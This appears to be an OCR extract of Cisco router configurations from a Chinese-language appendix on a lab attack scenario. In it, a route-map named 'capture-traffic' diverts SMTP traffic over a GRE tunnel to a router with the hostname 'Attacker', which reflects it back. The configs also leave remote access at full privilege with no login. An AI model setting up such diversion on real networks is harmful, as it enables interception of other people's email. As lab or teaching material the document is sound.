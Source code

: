 ```
access-list 101 permit tcp any any eq smtp
access-list 101 permit tcp any eq smtp any
no cdp run
route-map capture-traffic permit 10
 match ip address 101
 set ip next-hop 192.168.5.2
!
line con 0
line aux 0
line vty 0 4
 privilege level 15
 login
!
end
附录B -场景1中间路由器完整配置(Attack Router)
!
version 12.2
service timestamps debug uptime
service timestamps log uptime
no service password-encryption
!
hostname Attacker
!
logging buffered 4096 debugging
no logging console
enable secret 5 $1$cjVg$HSwnoTugnkpJb2ZrZTqsQ0
!
memory-size iomem 10
ip subnet-zero
!
interface Tunnel0
 ip address 192.168.5.2 255.255.255.0
 ip policy route-map reflect
 tunnel source Ethernet0/1
 tunnel destination 192.168.1.1
!
interface Ethernet0/0
 ip address 192.168.3.1 255.255.255.0
 half-duplex
!
interface Ethernet0/1
 ip address 192.168.1.2 255.255.255.0
 half-duplex
!
ip classless
no ip http server
no ip pim bidir-enable
!
access-list 100 permit ip any any
no cdp run
route-map reflect permit 10
 match ip address 100
 set ip next-hop 192.168.5.1
!
line con 0
line aux 0
line vty 0 4
 privilege level 15
 no login
!
end
```
